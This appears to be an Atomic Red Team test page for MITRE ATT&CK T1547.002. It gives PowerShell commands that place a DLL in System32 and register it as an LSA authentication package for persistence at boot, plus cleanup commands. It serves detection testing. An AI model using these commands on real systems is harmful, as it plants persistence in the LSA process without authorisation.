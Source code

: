 # T1547.002 - Authentication Package
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/002)
<blockquote>Adversaries may abuse authentication packages to execute DLLs when the system boots. Windows authentication package DLLs are loaded by the Local Security Authority (LSA) process at system start. They provide support for multiple logon processes and multiple security protocols to the operating system.(Citation: MSDN Authentication Packages)

Adversaries can use the autostart mechanism provided by LSA authentication packages for persistence by placing a reference to a binary in the Windows Registry location <code>HKLM\SYSTEM\CurrentControlSet\Control\Lsa\</code> with the key value of <code>"Authentication Packages"=&lt;target binary&gt;</code>. The binary will then be executed by the system when the authentication packages are loaded.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Authentication Package](#atomic-test-1---authentication-package)


<br/>

## Atomic Test #1 - Authentication Package
Establishes persistence using a custom authentication package for the Local Security Authority (LSA).
After a reboot, Notepad.exe will be executed as child process of lsass.exe.
Payload source code: https://github.com/tr4cefl0w/payloads/tree/master/T1547.002/package
[Related blog](https://pentestlab.blog/2019/10/21/persistence-security-support-provider/)

**Supported Platforms:** Windows


**auto_generated_guid:** be2590e8-4ac3-47ac-b4b5-945820f2fbe9






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Copy-Item $PathToAtomicsFolder\T1547.002\bin\package.dll C:\Windows\System32\
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Authentication Packages" /t REG_MULTI_SZ /d "msv1_0\0package.dll" /f
```

#### Cleanup Commands:
```powershell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Authentication Packages" /t REG_MULTI_SZ /d "msv1_0" /f
rm -force C:\windows\system32\package.dll
```





<br/>
